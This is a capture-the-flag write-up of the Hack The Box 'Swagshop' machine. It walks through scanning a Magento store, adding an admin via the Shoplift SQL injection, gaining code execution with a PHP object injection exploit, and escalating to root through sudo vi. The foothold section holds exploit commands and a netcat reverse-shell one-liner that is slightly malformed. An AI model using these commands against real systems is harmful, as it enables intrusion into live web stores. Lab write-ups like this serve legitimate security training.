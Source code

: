 # Swagshop - Linux (Easy)

## Summary
Swagshop was an easy box that involved a Magneto store web server. I start off by exploiting an authentication bypass to add an admin user to the CMS. I then used an authenticated exploitation of a PHP Object Injection Vulnerability to get RCE. I was able to then use Vi to privesc to gain root level access.

## Enumeration
I started Enumeration by running Rustscan on the the target that showed ports 22 & 80 being open.

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Port 80 - HTTP
The website is a Magneto Gift Shop Store. I ran Gobuster on `index.php` which provided more details than the landing page, including an admin directory.

```
gobuster dir -u http://swagshop.htb/index.php/ -w /usr/share/wordlists/dirb/common.txt -k     
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://swagshop.htb/index.php/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/18 06:38:23 Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 16593]
/admin                (Status: 200) [Size: 3609] 
/api                  (Status: 200) [Size: 361]  
/catalog              (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/]
/checkout             (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/checkout/onepage/]
/cms                  (Status: 200) [Size: 16593]                                                  
/contacts             (Status: 200) [Size: 15600]                                                  
/core                 (Status: 200) [Size: 0]                                                      
/enable-cookies       (Status: 200) [Size: 19482]                                                  
/Home                 (Status: 200) [Size: 16591]                                                  
/home                 (Status: 200) [Size: 16591]                                                  
/install              (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/]                 
/wishlist             (Status: 302) [Size: 0] [--> http://swagshop.htb/index.php/customer/account/login/]
                                                                                                         
===============================================================
2022/02/18 06:46:16 Finished
===============================================================
```
![Magento Login](Images/magento_login.png)

The `admin` directory had an Admin login page for which, default credentials didn't seem to do the trick. With some Searchsploit and Googling, I was able to settle on the [Shoplift](https://github.com/joren485/Magento-Shoplift-SQLI) exploit. The PoC selects an admin user, feeds queries into one line and inserts a username:password combination which allows legitimate access. 

![pythonpoc](Images/pythonpoc.png)

![adminlogin](Images/admin-login.png)

## User Foothold

Now that I am authenticated, I was able to use Searchsploit to grab working code for an Authenticated RCE [exploit](https://www.exploit-db.com/exploits/37811).

![script-date](Images/script-date.png)

Having done some research on the nature of this exploit, it appears to be a PHP Object Injection Vulnerability. A key aspect to this attack vector is the date when it was installed which is present in `swagshop.htb/app/etc/local.xml`. This allows me to inject my own code, resulting in the RCE. 

After [RCE.py](RCE.py) was debugged, I was able to run the following Proof of Concept.

```
python exploit.py http://IP/index.php/admin "whoami" 

http://swagshop.htb/index.php/admin/index/index/key/15b8de05ecf8a02c061eec0d14578a48/?SID=901gjdi369elk0fkpp5rguve55
http://swagshop.htb/index.php/admin/dashboard/index/key/fa2c88ef0cf6cd68256766221e0a9866/

www-data
```

Seeing that this provided the expected output of the `whoami` command giving me access as `www-data`, I was able to expand on this to set a netcat reverse shell and a listener

```
python exploit.py http://$machine_IP/index.php/admin "rm /tmp/f;f;cat /tmp/f|/bin/sh -i 2>&1|nc $machine_IP 1234 >/tmp/f"
```

Having established this, I was able to upgrade my shell and grab the user flag. 

![user.txt](Images/user.txt.png)

## Privilege Escalation

After obtaining the user flag, I ran `sudo -l` to identify what other applications the user could run as root. This was surprisingly easy as I could use `/usr/bin/vi` & `/var/www/html/*`

![sudo-l](Images/sudo-l.png)

![privesc](Images/privesc-exploit.png)

For reference, I used the associated [GTFO Bins](https://gtfobins.github.io/gtfobins/vi/) resource.

This ensured that I was able to reach the `root.txt` file and grab the root file as an unprivileged user. When in Vi, I was able to use the `:sh` flag which gave me a root shell

![root.txt](Images/vi-shell.png)

## Cert

![cert](Images/cert.png)